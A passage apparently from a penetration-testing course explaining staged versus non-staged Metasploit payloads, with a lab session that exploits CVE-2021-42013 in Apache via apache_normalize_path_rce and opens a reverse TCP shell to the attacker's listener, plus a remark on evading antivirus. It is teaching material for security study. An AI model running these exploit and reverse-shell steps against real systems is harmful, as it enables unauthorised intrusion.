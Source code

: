 There are several situations in which we would prefer to use a staged payload instead of non-staged. If there are space-limitations in an exploit, a staged payload might be a better choice as it is typically smaller. In addition, we need to keep in mind that antivirus software can detect shellcode in an exploit. By replacing the full code with a first stage, which loads the second and malicious part of the shellcode, the remaining payload is retrieved and injected directly into the victim machine's memory. This may prevent detection and can increase our chances of success.

Now that we have a basic understanding of these two types of payloads, let's get our hands dirty. For this, we'll use the same exploit module as in the previous section and enter **show payloads** to get a list of all payloads that are compatible with the currently selected exploit module.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > show payloads
Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
...
   15  payload/linux/x64/shell/reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Stager
...
   20  payload/linux/x64/shell_reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Inline
...
```

> Listing 32 - Display compatible payloads of the exploit module

Listing 32 shows us the payload we used before at index 20. In Metasploit, the "/" character is used to denote whether a payload is staged or not, so *shell\_reverse\_tcp* at index 20 is not staged, whereas *shell/reverse\_tcp* at index 15 is.

Let's use the staged payload for this exploit module and launch it. We should note that Metasploit will reuse the values for the options from the previous payload.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 15
payload => linux/x64/shell/reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/shell/reverse_tcp command payload
[*] Sending stage (38 bytes) to 192.168.50.16
[!] Tried to delete /tmp/EqDPZD, unknown result
[*] Command shell session 3 opened (192.168.119.4:4444 -> 192.168.50.16:35536) at 2022-08-08 05:18:36 -0400

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
